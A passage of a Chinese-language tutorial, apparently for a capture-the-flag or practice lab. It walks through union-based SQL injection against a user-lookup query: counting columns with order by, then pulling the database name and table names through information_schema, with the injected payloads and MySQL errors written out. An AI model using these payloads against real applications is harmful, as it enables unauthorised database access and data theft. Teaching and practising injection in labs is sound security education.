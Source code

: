 

5.同理我们修改一下参数，让order by 1的数字继续往上加

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '
/*
以下内容为我们传入的$id，先用一个单引号把前边的单引号闭合，然后order by 2 #，这里井号是要注释下一个单引号
*/
1' or 1 = 1 order by 2#
';
```

当加到3的时候，也就是超过列的数量的时候，会报类似以下错误：

```
Unknown column '3' in 'order clause'
```

这样就说明这张表只有两列



6.确认显示的字段的顺序，输入1' union select 1,2 # ，查询成功(用到了联合查询)

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select 1,2 #';
```

在使用union时，我们需要注意左右两端的字段数需要相同，如果我们两边字段数不同，会报以下错误

```
select * from users union select 1;
ERROR 1222(21000): The used SELECT statements have a different number of columns
```



7.以上已经完成了所有的前期准备，接下来我们正式获取数据库信息了

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '
1' union select 1,database() #';
```

![image-20241211201639259](/img/ctfLearn/image-20241211201639259.png)

注：图仅供参考，可能有错漏

以上查询就可以找到数据库名



8.获取当前数据库的表名

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '
# 以下是输入的内容
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #';
```

![image-20241211203322243](/img/ctfLearn/image-20241211203322243.png)
